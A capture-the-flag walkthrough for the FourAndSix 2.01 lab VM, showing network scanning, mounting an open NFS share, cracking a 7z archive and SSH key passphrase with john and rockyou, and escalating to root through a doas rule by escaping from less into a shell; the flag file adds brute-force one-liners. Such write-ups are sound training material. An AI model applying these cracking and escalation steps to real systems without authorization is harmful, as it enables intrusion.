 # FourAndSix: 2.01

## 1.Get VM IP
```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:95:6e:f7       PCS Systemtechnik GmbH
192.168.56.110  08:00:27:41:81:5a       PCS Systemtechnik GmbH

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.603 seconds (98.35 hosts/sec). 3 responded
```
The IP address is `192.168.56.110`, let's enumerate it.


## 2.Enumeration
I first used rust scan which is alot faster than nmap to scan for top ports :
```bash
root@kali: rustscan -a 192.168.56.110 --range --top

Host is up, received arp-response (0.00054s latency).
Scanned at 2023-11-05 06:20:41 EST for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
111/tcp  open  rpcbind syn-ack ttl 64
973/tcp  open  unknown syn-ack ttl 64
2049/tcp open  nfs     syn-ack ttl 64
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
```

then scanned the open ports with nmap :

```bash
root@kali: nmap -sC -sV -p22,111,973,2049 -v -oN nmap.out 192.168.56.110

Nmap scan report for 192.168.56.110
Host is up (0.00036s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 ef:3b:2e:cf:40:19:9e:bb:23:1e:aa:24:a1:09:4e:d1 (RSA)
|   256 c8:5c:8b:0b:e1:64:0c:75:c3:63:d7:b3:80:c9:2f:d2 (ECDSA)
|_  256 61:bc:45:9a:ba:a5:47:20:60:13:25:19:b0:47:cb:ad (ED25519)
111/tcp  open  rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3         2049/tcp   nfs
|   100003  2,3         2049/udp   nfs
|   100005  1,3          763/udp   mountd
|_  100005  1,3          973/tcp   mountd
973/tcp  open  mountd  1-3 (RPC #100005)
2049/tcp open  nfs     2-3 (RPC #100003)
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
```

let's go for nfs first,

```bash
root@kali: showmount -e 192.168.56.110
       
Export list for 192.168.56.110:
/home/user/storage (everyone)
```

now mount it on your system :

```bash
root@kali: mount 192.168.56.110:/home/user/storage /mnt/tmp

root@kali: ls /mnt/tmp
backup.7z
```

when you want to unzip the file it asks for password and the only way to find it is to brute force the password

use the tool `7z2john` for this :

```bash
root@kali: 7z2john backup.7z > ziphash.txt

root@kali : john --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 0 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Cost 4 (data length) is 9488 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate        (backup.7z)     
1g 0:00:00:01 DONE (2023-11-05 06:31) 0.9708g/s 31.06p/s 31.06c/s 31.06C/s 654321..butterfly
Use the "--show" option to display all of the cracked passwords reliably
```
## 3.Gaining Shell

Having the password we try to unzip the file :

```bash
root@kali: 7za e backup.7z
```

two of the files are interesting :
- id_rsa
- id_rsa.pub

from id_rsa.pub we can see the what user is associated with this public key :

```bash
root@kali: cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDClNemaX//nOugJPAWyQ1aDMgfAS8zrJh++hNeMGCo+TIm9UxVUNwc6vhZ8apKZHOX0Ht+MlHLYdkbwSinmCRmOkm2JbMYA5GNBG3fTNWOAbhd7dl2GPG7NUD+zhaDFyRk5gTqmuFumECDAgCxzeE8r9jBwfX73cETemexWKnGqLey0T56VypNrjvueFPmmrWCJyPcXtoLNQDbbdaWwJPhF0gKGrrWTEZo0NnU1lMAnKkiooDxLFhxOIOxRIXWtDtc61cpnnJHtKeO+9wL2q7JeUQB00KLs9/iRwV6b+kslvHaaQ4TR8IaufuJqmICuE4+v7HdsQHslmIbPKX6HANn user@fourandsix2
```

so the user `user` is bing to this key, we now just need to connect to server with the private key and user `user` :

```bash
root@kali: ssh -i id_rsa user@192.168.56.110
Enter passphrase for key 'id_rsa': 
```

but it needs the passphrase, we can use `ssh2john` for this one :

```bash
root@kali: ssh2john id_rsa > hash.txt

root@kali:  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
12345678         (id_rsa)     
1g 0:00:00:01 DONE (2023-11-05 06:39) 0.8620g/s 13.79p/s 13.79c/s 13.79C/s 123456..jessica
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

now we can easily connect to server :

```bash
root@kali: ssh -i id_rsa user@192.168.56.110
Enter passphrase for key 'id_rsa': 
Last login: Sun Nov  5 12:11:12 2023 from 192.168.56.102
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel)
```

you can either use `linpeas.sh` or look for files which has SUID permission

if you use linpeas.sh it mentions a file :

```bash
╔══════════╣ Checking doas.conf
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root
```

or if you use the find command it shows you the `doas` binary :

```bash
fourandsix2$ find / -perm -u=s -type f 2>/dev/null     
/usr/bin/chfn
/usr/bin/chpass
/usr/bin/chsh
/usr/bin/doas
/usr/bin/lpr
/usr/bin/lprm
/usr/bin/passwd
/usr/bin/su
/usr/libexec/lockspool
/usr/libexec/ssh-keysign
/usr/sbin/authpf
/usr/sbin/authpf-noip
/usr/sbin/pppd
/usr/sbin/traceroute
/usr/sbin/traceroute6
/sbin/ping
/sbin/ping6
/sbin/shutdown
```

as linpeas states we can run `less` command as user root so let's try it :

```bash
fourandsix2$ doas /usr/bin/less /var/log/authlog 
```

then use `v` to escape to `vi` editor and the following command to enter to a new shell :

```bash
:!/bin/sh


fourandsix2# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
```

yes, now we can get the flag :

```bash
fourandsix2# cat flag.txt
Nice you hacked all the passwords!

Not all tools worked well. But with some command magic...:
cat /usr/share/wordlists/rockyou.txt|while read line; do 7z e backup.7z -p"$line" -oout; if grep -iRl SSH; then echo $line; break;fi;done

cat /usr/share/wordlists/rockyou.txt|while read line; do if ssh-keygen -p -P "$line" -N password -f id_rsa; then echo $line; break;fi;done


Here is the flag:
acd043bc3103ed3dd02eee99d5b0ff42
```








